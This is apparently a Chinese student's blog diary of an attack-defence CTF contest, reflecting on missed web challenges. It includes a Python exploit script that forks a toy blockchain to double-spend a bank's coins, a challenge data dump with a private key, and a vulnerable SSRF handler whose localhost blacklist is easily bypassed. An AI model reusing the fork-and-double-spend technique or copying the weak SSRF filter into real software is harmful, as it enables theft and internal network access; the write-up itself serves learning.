


# 20180609

今天来到东大参加这比赛。

开头一个小时都很麻瓜

国防科技和南邮拿得了web和pwn的一血。

哎，菜

web3是一个时间盲注，该死的，不会写盲注脚本。

web5学弟发现一个后门，但不知道怎么利用

web1有点脑洞啊，没有get到

放出web5的区块链信息

```
Hahaha, Do you like the block chain?Reference resources

hash of genesis block: f012da3962bb7e1cbf8e5e89523caa7083b92fe6f2ad7af64e71a0e978fbc592

the bank's addr: afcf69157e1c14fad347b126df7ea4b39f39f8e1a793893d5d27de2eee2331656786aef16aae941f560aaf346117b559, your addr: 86f77f2607f5c72adad1ff0a319bd9db9a8faab8fa1576814e08be4ff755dec5c5814ce897258dba5f2cc8ba75854ea1, your privkey: 63636f70795f7265670a5f7265636f6e7374727563746f720a70300a28637273612e6b65790a507269766174654b65790a70310a635f5f6275696c74696e5f5f0a6f626a6563740a70320a4e7470330a5270340a284c32303737333238393237363832343234383535323430333332353335393338353437313037323036393939353738393830303835353839333030343834363230373736333533393636393231353831373937383434303633343834363234303137373334303331343739333431363135303638394c0a4936353533370a4c323932353633363831363232373238383631373730373239303433323338333635393538313533373233393433393339383533363639393336323536313338323837383032323735313331333834353838323133343732313035303536343538343636373732323835333938313131333237334c0a4c32343531393031383132383731343138373834333935353938353935343839353539313732313232373739353232303737313234393233323634373237394c0a4c3834373233313639343530363432333931343632363230333431363532373935333734383831383530383538343132323830373739314c0a4c31353131343634323630343934313533323039343738333433323735363732393531303133323235353130363638363539313637323933323833313037334c0a4c3335363239353732313939333535343031353435373131323635393435383432373034353335313238313138363030313933333334334c0a4c31303637343332393037333535333934343536393935393632333937333333313536363639303538363131353539313733373831303439303831323236314c0a7470350a622e

Balance of all addresses: {"86f77f2607f5c72adad1ff0a319bd9db9a8faab8fa1576814e08be4ff755dec5c5814ce897258dba5f2cc8ba75854ea1": 0, "afcf69157e1c14fad347b126df7ea4b39f39f8e1a793893d5d27de2eee2331656786aef16aae941f560aaf346117b559": 99999999}

All utxos: {"b36aa46c-a1d5-419c-8b6a-7d216df57af6": {"amount": 99999999, "hash": "a5e6ff9a0b01d67484aeb1cf220f860ba41accab2657d4138010a9d1651b504c", "id": "b36aa46c-a1d5-419c-8b6a-7d216df57af6", "addr": "afcf69157e1c14fad347b126df7ea4b39f39f8e1a793893d5d27de2eee2331656786aef16aae941f560aaf346117b559"}}

Blockchain Explorer: {"f012da3962bb7e1cbf8e5e89523caa7083b92fe6f2ad7af64e71a0e978fbc592": {"nonce": "your have 3 times.", "height": 0, "prev": "0000000000000000000000000000000000000000000000000000000000000000", "hash": "f012da3962bb7e1cbf8e5e89523caa7083b92fe6f2ad7af64e71a0e978fbc592", "transactions": [{"input": [], "output": [{"amount": 99999999, "hash": "a5e6ff9a0b01d67484aeb1cf220f860ba41accab2657d4138010a9d1651b504c", "id": "b36aa46c-a1d5-419c-8b6a-7d216df57af6", "addr": "afcf69157e1c14fad347b126df7ea4b39f39f8e1a793893d5d27de2eee2331656786aef16aae941f560aaf346117b559"}], "hash": "95deb2c896a5f54b06e6b1f18463f46f47e093aeed790c09dd9ff14719b29396", "signature": []}]}}
```



这是web3那个界面，不知道盲注在哪。

web5的exp：

```python
# -*- encoding: utf-8 -*-
 
import btc, rsa, uuid, json, copy
#创世块的hash
genies_hash = "f012da3962bb7e1cbf8e5e89523caa7083b92fe6f2ad7af64e71a0e978fbc592"
#黑客转账999999,所用的input和签名
input,signature = ("b36aa46c-a1d5-419c-8b6a-7d216df57af6","161ae7eac89f71d50d1019d21288dce23cae6cbb587998df9010e3ff3c80ee8e4c06bd70555604be85ca0869136b3966")
#商店地址
shop_address = "afcf69157e1c14fad347b126df7ea4b39f39f8e1a793893d5d27de2eee2331656786aef16aae941f560aaf346117b559"
txout_id = str(uuid.uuid4())
 
#工作量证明
def pow(b, difficulty, msg=""):
    nonce = 0
    while nonce<(2**32):
        b['nonce'] = msg+str(nonce)
        b['hash'] = btc.hash_block(b)
        block_hash = int(b['hash'], 16)
        if block_hash < difficulty:
            return b
        nonce+=1  
 
def myprint(b):
    print(json.dumps(b))
    print(len(json.dumps(b)))
 
#构造一个空块
def empty_block(msg, prevHash):
    b={}
    b["prev"] = prevHash
    b["transactions"] = []
    b = pow(b, btc.DIFFICULTY, msg)
    return b
 
#从创世块开始分叉，给商店转1000000
block1 = {}
block1["prev"] = genies_hash
tx = {"input":[input],"output":[{"amount":1000000, 'id':txout_id,'addr':shop_address}],'signature':[signature]}
tx["output"][0]["hash"] = btc.hash_utxo(tx["output"][0])
tx['hash'] = btc.hash_tx(tx)
block1["transactions"] = [tx]
block1 = pow(block1, btc.DIFFICULTY)
myprint(block1)
 
#构造空块增加分叉链长度，使分叉链最长，因为max的结果不唯一，少则一次多则两次
block2 = empty_block("myempty1", block1["hash"])
myprint(block2)
block3 = empty_block("myempty2", block2["hash"])
myprint(block3)
 
#余额更新成功,系统自动添加块，转走商店钱，钻石+１
 
#从自己的块，即系统转走钱之前的那个块再次分叉，添加空块
block4 = empty_block("myempty3", block3["hash"])
myprint(block4)
block5 = empty_block("myempty4", block4["hash"])
myprint(block5)
#新的分叉链最长，余额更新成功，钻石+１
```

当然肯定没有成功。



上图是fix环节搞出来的

源代码是判断购买那个商品名是xxx，然后跳转flag.html界面。

醉了，这就是web5区块链那题。

然后web1那题的思路是，积分到达5201314，后台就会把flag放到head头里，这题我也是醉了，没想到没想到，但是break环节中，我是做到了让积分变成5201314，但具体怎么做的忘了。

web3中那个工具的代码：

```python
class SsrfToolHandler(BaseHandler):
	def post(self):
		ip = urlparse.urlparse(self.get_argument('dst'))
		if ip.netloc.split(':')[0] not in ['127.0.0.1','localhost']:
			command = ['curl',urlparse.urlunparse(ip)]
			s=subprocess.Popen(command,shell=False,stderr=subprocess.PIPE,stdout=subprocess.PIPE)			
			return self.render('admin_login.html', success=1, res=s.stdout.read())
		else:
			return self.render('admin_login.html', danger=1, danger_info='WTF are you doing? No hacking!')
```

fix环节中，猜想那个应该是ssrf，但自己ssrf的操作不是很熟，遇到的也比较少，所以当时没想那么多。然后回到宾馆，回过头来看了下，才发现那个是

[SSRF](https://www.jianshu.com/p/612c010e588e)这算是自己平时积累的少的缘故，哎，多吃些苦以后真的会少吃的。

### 这次比赛总结

这次比赛，是我第一次参加，这种赛制也是第一次参加，只能说是初来乍到不是很熟，并且，对于不给提示和题目的CTF题，只能无脑想想瞎点点。并且有的题确实有些脑洞，其次，自己积累的知识也比较少，对于SSRF和区块链都不是很懂，希望回校能够好好记住，修补自己的短处。

在学校好好做个咸鱼。

